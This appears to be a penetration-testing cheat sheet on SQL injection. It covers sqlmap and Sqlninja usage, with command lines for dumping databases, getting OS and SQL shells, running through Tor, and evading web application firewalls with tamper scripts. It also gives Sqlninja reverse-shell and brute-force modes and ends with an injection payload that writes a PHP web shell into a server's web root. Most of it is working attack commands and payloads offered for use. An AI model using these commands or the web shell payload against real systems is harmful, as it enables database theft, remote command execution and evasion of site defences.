

SQLi Tools

SQLi Tools
When it comes to SQLi tools there are two main offerings. We have SQLmap and we have Sqlninja.
SQLMap is an advanced and automatic SQL injection tool. Its main purpose is to scan, detect, and exploit the SQL injection flaws for a given URL. It supports various database management systems (DBMS) such as MS-SQL, MySQL, Oracle, and PostgreSQL. It can also identify other database systems, such as DB2, Informix, Sybase, InterBase, and MS-Access. SQLMap employs four unique SQL injection techniques: inferential blind SQL injection, UNION query SQL injection, stacked queries, and time-based blind SQL injection. Its broad features and options include database fingerprinting, enumerating, data extracting, accessing the target filesystem, and executing the arbitrary commands with full operating system access. Additionally, it can parse the list of targets from the Burp proxy or WebScarab logs and the standard text file. SQLMap also allows scanning the Google search engine with classified Google dorks to extract specific targets.
SQL Ninja is a specialized tool that is developed to target those web applications that use MS-SQL Server on the backend, and are vulnerable to SQL injection flaws. Its main goal is to exploit these vulnerabilities to take over the remote database server through an interactive command shell, instead of just extracting the data from the database. It includes various options to perform this task, such as server fingerprint, password brute force, privilege escalation, upload remote backdoor, direct shell, backscan connect shell (firewall bypass), reverse shell, DNS tunnelling, single command execution, and Metasploit integration. Thus, it is not a tool that scans and discovers the SQL injection vulnerabilities but one that exploits any such existing vulnerability to gain OS access.
Links on SQLi Attacks and Tools
http://troels.arvin.dk/db/rdbms/ - explain language differences between attacks
http://hakipedia.com/index.php/SQL_Injection
http://sqlninja.sourceforge.net/sqlninja-howto.html
https://github.com/sqlmapproject/sqlmap/wiki/Usage
SQLMap
Show basic help message and exit
sqlmap -h
Show advanced help message and exit
sqlmap -hh
Crawl a website
sqlmap -u http://192.168.19.84 --crawl=1
Target URL
sqlmap -u http://www.site.com/vuln.php?id=1
Show sqlmap man page
man sqlmap
Verbosity level: 0-6 (default 1)
sqlmap -v -u http://www.site.com/vuln.php?id=1
Force usage of SSL/HTTPS
sqlmap -u http://www.site.com/vuln.php?id=1 --force-ssl
Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs
Enumerate tables
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables
Enumerate columns
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --columns
Dump table data
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump
Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2
Specify parameter to exploit in ‘nice’ URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1
Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell
Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell
SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"
Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
By default, sqlmap will figure out for itself where the injection point is. If you want to guide it, add a * to the URL like this:
sqlmap -u http://example/?id=11-(case when 1=1* then 1)
Key Flag Options
Finger Printing
-f --fingerprint Perform an extensive DBMS version fingerprint
Technique
--technique=TECH SQL injection techniques to use (default "BEUSTQ")
- Boolean-Based Blind
- Error-Based
- Union Query Based
- Stacked Queries
- Time-Based
Operating System These options can be used to access the back-end database management system underlying the operating system
| Parameter | Description |
|---|---|
| –os-cmd=OSCMD | Execute an operating system command |
| –os-shell | Prompt for an interactive operating system shell |
| –os-pwn | Prompt for an OOB shell, Meterpreter or VNC |
| –os-smbrelay | One click prompt for an OOB shell, Meterpreter or VNC |
| –os-bof | Stored procedure buffer overflow exploitation |
| –priv-esc | Database process user privilege escalation |
| –msf-path=MSFPATH | Local path where Metasploit Framework is installed |
| –tmp-path=TMPPATH | Remote absolute path of temporary files directory |
Optimisation
| Parameter | Description |
|---|---|
| -o | Turn on all optimisation switches |
| –predict-output | Predict common queries output |
| –keep-alive | Use persistent HTTP(s) connections |
| –null-connection | Retrieve page length without actual HTTP response body |
| –threads=THREADS | Max number of concurrent HTTP(s) requests (default 1) |
| –method=METHOD | Force usage of given HTTP method (e.g. PUT) |
| –level=LEVEL | Level of tests to perform (1-5, default 1) |
| –risk=RISK | Risk of tests to perform (1-3, default 1) |
Enumeration
| Parameter | Description |
|---|---|
| -a, –all | Retrieve everything |
| -b, –banner | Retrieve DBMS banner |
| –current-user | Retrieve DBMS current user |
| –current-db | Retrieve DBMS current database |
| –hostname | Retrieve DBMS server hostname |
| –is-dba | Detect if the DBMS current user is DBA |
| –users | Enumerate DBMS users |
| –passwords | Enumerate DBMS users password hashes |
| –privileges | Enumerate DBMS users privileges |
| –roles | Enumerate DBMS users roles |
| –dbs | Enumerate DBMS databases |
| –tables | Enumerate DBMS database tables |
| –columns | Enumerate DBMS database table columns |
| –schema | Enumerate DBMS schema |
| –count | Retrieve number of entries for table(s) |
| –dump | Dump DBMS database table entries |
| –dump-all | Dump all DBMS databases tables entries |
| –search | Search column(s), table(s) and/or database name(s) |
| –comments | Retrieve DBMS comments |
| -D DB DBMS | database to enumerate |
| -T TBL DBMS | database table(s) to enumerate |
| -C COL DBMS | database table column(s) to enumerate |
| -X EXCLUDECOL | DBMS database table column(s) to not enumerate |
| -U USER DBMS | user to enumerate |
| –sql-query=QUERY | SQL statement to be executed |
| –sql-shell | Prompt for an interactive SQL shell |
Brute force
These options can be used to run brute force checks.
| Parameter | Description |
|---|---|
| –common-tables | Check the existence of common tables |
| –common-columns | Check the existence of common columns |
File system access
These options can be used to access the back-end database management system underlying the file system
| Parameter | Description |
|---|---|
| –file-read=RFILE | Read a file from the back-end DBMS file system |
| –file-write=WFILE | Write a local file on the back-end DBMS file system |
| –file-dest=DFILE | Back-end DBMS absolute filepath to write to |
Windows registry access
These options can be used to access the back-end database management system Windows registry.
| Parameter | Description |
|---|---|
| –reg-read | Read a Windows registry key value |
| –reg-add | Write a Windows registry key value data |
| –reg-del | Delete a Windows registry key value |
| –reg-key=REGKEY | Windows registry key |
| –reg-value=REGVAL | Windows registry key value |
| –reg-data=REGDATA | Windows registry key value data |
| –reg-type=REGTYPE | Windows registry key value type |
General
| Parameter | Description |
|---|---|
| –update | Update sqlmap |
| –sqlmap-shell | Prompt for an interactive sqlmap shell |
| –output-dir=OUT.. | Custom output directory path |
| –tmp-dir=TMPDIR | Local directory for storing temporary files |
| –forms | Parse and test forms on target URL |
| –batch | Never ask for user input, use the default behaviour |
| –csv-del=CSVDEL | Delimiting character used in CSV output (default “,”) |
| –dump-format=DU.. | Format of dumped data (CSV (default), HTML or SQLITE) |
Tamper Scripts
- apostrophemask - Replaces apostrophe character with its UTF-8 full width counterpart.
'becomes%EF%BC%87 - apostrophenullencode - Replaces apostrophe character with its illegal double unicode counterpart.
'becomes%00%27 - appendnullbyte - Appends encoded NULL byte character at the end of payload.
%00 - base64encode - Base64 all characters in a given payload
- between - Replaces greater than operator (‘>’) with ‘NOT BETWEEN 0 AND #’. Replaces equals operator (‘=’) with ’BETWEEN # AND #
- bluecoat - Replaces space character after SQL statement with a valid random blank character. Afterwards replace character = with LIKE operator.
- chardoubleencode - Double url-encodes all characters in a given payload (not processing already encoded)
- charencode - Url-encodes all characters in a given payload (not processing already encoded)
- charunicodeencode - Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)
- commalesslimit - Replaces instances like ‘LIMIT M, N’ with ‘LIMIT N OFFSET M’
- commalessmid - Replaces instances like ‘MID(A, B, C)’ with ‘MID(A FROM B FOR C)’
- commentbeforeparenthesis - Prepends (inline) comment before parentheses e.g.
'SELECT ABS(1)'becomes'SELECT ABS/**/(1)' - concat2concatws - Replaces instances like ‘CONCAT(A, B)’ with ‘CONCAT_WS(MID(CHAR(0), 0, 0), A, B)’
- equaltolike - Replaces all occurances of operator equal (‘=’) with operator ‘LIKE’
- escaptequotes - Slash escape quotes (’ and “)
- greatest - Replaces greater than operator (‘>’) with ‘GREATEST’ counterpart e.g.
'1 AND A > B'becomes'1 AND GREATEST(A,B+1)=A' - halfversionedmorekeywords - Adds versioned MySQL comment before each keyword
- htmlencode - HTML encode (using code points) all non-alphanumeric characters
- ifnull2ifisnull - Replaces instances like ‘IFNULL(A, B)’ with ‘IF(ISNULL(A), B, A)’
- informationschemacomment - Add a comment to the end of all occurrences of (blacklisted) “information_schema” identifier e.g.
INFORMATION_SCHEMA.TABLESbecomesINFORMATION_SCHEMA/**/.TABLES - lowercase - Replaces each keyword character with lower case value
- modsecurityversioned - Embraces complete query with versioned comment
- modsecurityzeroversioned - Embraces complete query with zero-versioned comment
- multiplespaces - Adds multiple spaces around SQL keywords e.g.
1 UNION SELECT foobarbecomes1 UNION SELECT foobar - nonrecursivereplacement - Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace(“SELECT”, “”)) filters e.g.
1 UNION SELECT 2--becomes1 UNIOUNIONN SELESELECTCT 2-- - overlongutf8 - Converts all characters in a given payload (not processing already encoded)
- percentage - Adds a percentage sign (‘%’) infront of each character
- plus2concat - Replaces plus (‘+’) character with function CONCAT()
- plus2fnconcat - Replaces plus (‘+’) character with ODBC function {fn CONCAT()}
- randomcase - Replaces each keyword character with random case value e.g.
'INSERT'becomes'INseRt' - randomcomments - Add random comments to SQL keywords e.g.
'INSERT'becomes'I/**/N/**/SERT' - securesphere - Appends special crafted string
- sp_password - Appends ‘sp_password’ to the end of the payload for automatic obfuscation from DBMS logs which happens as a security measure.
- space2comment - Replaces space character
' 'with comments/**/ - space2dash - Replaces space character
' 'with a dash comment'--'followed by a random string and a new line\n - space2hash - Replaces space character
' 'with a pound character'#'followed by a random string and a new line'\n' - space2morecomment - Replaces space character
' 'with comments'/**_**/' - space2morehash - Replaces space character
' 'with a pound character'#'followed by a random string and a new line'\n' - space2mssqlblank - Replaces space character
' 'with a random blank character from a valid set of alternate characters - space2mysqldash - Replaces space character
' 'with a random blank character from a valid set of alternate characters - space2plus - Replaces space character
' 'with plus'+' - space2randomblank - Replaces space character
' 'with a random blank character from a valid set of alternate characters - symboliclogical - Replaces AND and OR logical operators with their symbolic counterparts (&& and ||)
- unionalltounion - Replaces
UNION ALL SELECTwithUNION SELECT - unmagicquotes - Replaces quote character (’) with a multi-byte combo %bf%27 together with generic comment at the end (to make it work). e.g.
1' AND 1=1becomes1%bf%27-- - uppercase - Replaces each keyword character with upper case value
- varnish - Append a HTTP header ‘X-originating-IP’ to bypass WAF Protection of Varnish Firewall
- versionedkeywords - Encloses each non-function keyword with versioned MySQL comment e.g.
1 UNION ALL SELECTbecomes1/*!UNION*//*!ALL*//*!SELECT*//*! - versionedmorekeywords - Encloses each keyword with versioned MySQL comment
- xforwardedfor - Append a fake HTTP header ‘X-Forwarded-For’ to bypass WAF (usually application based) protection
Burpsuite Intergration
Make a file with the burpsuite request
root@evilsaint:/tmp# nano /tmp/burp-post.txt
root@evilsaint:/tmp# cat /tmp/burp-post.txt
POST /register-user HTTP/1.1
Host: me.terahost.exam
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Referer: http://me.terahost.exam/register
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 84
Cookie: _sid_=eq5bao6a2j3pdch0vl8dmvv9t6; displayoptions=1
Connection: close
name=test&surname=test&email=test&street_address=test&city=test&zip=test&password=test
Run with the -r switch
sqlmap -r /tmp/burp-post.txt
SQLNinja
Open Docs
firefox file:///usr/share/doc/sqlninja/sqlninja-howto.html
Flags
Usage: /usr/bin/sqlninja
-m <mode> : Required. Available modes are:
t/test - test whether the injection is working
f/fingerprint - fingerprint user, xp_cmdshell and more
b/bruteforce - bruteforce sa account
e/escalation - add user to sysadmin server role
x/resurrectxp - try to recreate xp_cmdshell
u/upload - upload a .scr file
s/dirshell - start a direct shell
k/backscan - look for an open outbound port
r/revshell - start a reverse shell
d/dnstunnel - attempt a dns tunneled shell
i/icmpshell - start a reverse ICMP shell
c/sqlcmd - issue a 'blind' OS command
m/metasploit - wrapper to Metasploit stagers
-f <file> : configuration file (default: sqlninja.conf)
-p <password> : sa password
-w <wordlist> : wordlist to use in bruteforce mode (dictionary method only)
-g : generate debug script and exit (only valid in upload mode)
-v : verbose output
-d <mode> : activate debug
1 - print each injected command
2 - print each raw HTTP request
3 - print each raw HTTP response
all - all of the above
Manual SQLi Example
An example of making a php backdoor in Xampp server running php
php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'